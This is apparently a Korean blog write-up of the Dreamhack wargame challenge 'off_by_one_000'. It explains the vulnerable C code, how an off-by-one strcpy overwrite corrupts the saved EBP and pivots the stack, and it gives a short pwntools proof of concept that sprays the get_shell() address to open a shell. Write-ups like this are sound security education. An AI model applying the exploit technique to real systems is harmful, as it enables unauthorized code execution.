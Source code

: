 ```yaml
---
layout: post
title: "[DH]off_by_one_000"
category: Wargame
tag:
- dreamhack
- pwn
date: 2025-10-30 22:35 +0900
---
```

### INFO
![chall]
_Fig 1. Challenge_

``` c
// 환경 및 코드 일부
/* Environment
    Ubuntu 16.04
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
*/
char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

int cpy()
{
    char real_name[256];                    ------ (2)
    strcpy(real_name, cp_name);             ------ (3)
    return 0;                               ------ (4)
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));      ------ (1)

    cpy();                              

    printf("Name: %s", cp_name);

    return 0;                               ------ (5)
}
```
### RECON
PIE와 카나리가 꺼져있어서 stack 기반 off-by-one 취약점이 존재할 것이라 짐작할 수 있습니다.

cp_name은 초기화되지 않은 상태라 `.bss` 섹션에 존재합니다.
```sh
└─$ objdump -t off_by_one_000 | grep cp_name
0804a060 g     O .bss   00000100              cp_name
```

### SOLVE
취약점 발현 과정은 다음과 같습니다.

    (1) 입력 가능한 크기가 버퍼의 크기와 동일하여 마지막에 /n이 들어가지 못함.
    (2) 스택에 동일한 크기의 버퍼(real_name)를 만듦. (Fig2 참고)
    (3) \n가 256B내에 없기 때문에 real_name[256]에 00가 덮어씌워짐. (Fig3,4 참고)
    (4) cpy()의 에필로그에서 ebp가 real_name 버퍼 내의 값을 가르킴.
    (5) main()의 에필로그에서 esp가 잘못된 위치로 이동되며, eip가 real_name 안의 임의의 주소로 이동하여 실행하게 됨.

그림과 같이 다시 보겠습니다.

#### (2) cpy() 이후 스택 상황

![stack_3]
_Fig2. cpy() 이후 스택_

#### (3) strcpy() 이후 스택 상황

![stack_4]
_Fig3. saved ebp의 하위 2비트 변조_

real_name[256]은 Saved ebp의 하위 2비트를 의미한다.<br>
스택이 높은 주소에서 낮은 주소로 성장한다는 것과 리틀엔디안 환경이라는 점을 고려해보자.

#### (4~5) 스택 프레임 별 에필로그 상세 과정
먼저 cpy()에서 에필로그에 진입하기 이전 스택 상황을 보자.<br>

![stack_5]
_Fig 4. cpy() 에필로그 진입 이전_

addr1은 cpy 스택 프레임의 saved EBP 값을 의미하며, addr2는 off-by-one 취약점으로 인해 변경된 주소값을 의미한다.

에필로그는 다음과 같은 절차를 밟는다.
``` sh
mov $esp $ebp   # leave;
pop $ebp

pop $eip        # ret;
```

cpy() 스택 프레임의 에필로그 절차에서 `pop $ebp`에 오염된 ebp값이 들어간다.<br>
main() 스택 프레임의 에필로그 절차에서 `mov $esp $ebp`로 esp가 변조되고, `pop $eip`로 임의의 코드가 실행될 수 있다.

#### 그래서 페이로드는 뭔가요?
버퍼에는 실행하고자하는 임의의 주소값이 들어가야 한다.

우리는 get_shell() 함수를 실행시켜 쉘을 획득하여야 한다.
```sh
└─$ objdump -t off_by_one_000 | grep get_shell
080485db g     F .text  00000013              get_shell
```

이 4바이트를 64번 넣어서 payload를 작성하면 된다.

### POC
```py
from pwn import *

p = remote(IP, PORT)

addr = 0x080485db

payload = b''
payload += p32(addr)*0x40       # addr은 little-endian으로 들어가야 함!

p.sendlineafter(b'Name: ', payload)
p.interactive()
```

### 후기
생각보다 풀이에 많은 시간이 들었다.

스택 구조에서 엔디안을 고려하려고 하니깐 헷갈렸고, 에필로그에서 $esp, $ebp, $eip가 어떻게 유기적으로 처리되는지 상세히 알지 못했었다.

이를 그림으로 그리면서 검증해보니깐 이해가 잘 된 것 같다.<br>
추가로 스택 시각화 도구가 있으면 좋을 것 같아서 만들어보려고 한다. 


[chall]: /assets/DreamHack/off-by-one-000/chall.png
[stack_3]: /assets/DreamHack/off-by-one-000/stack_3.png
[stack_4]: /assets/DreamHack/off-by-one-000/stack_4.png
[stack_5]: /assets/DreamHack/off-by-one-000/stack_5.png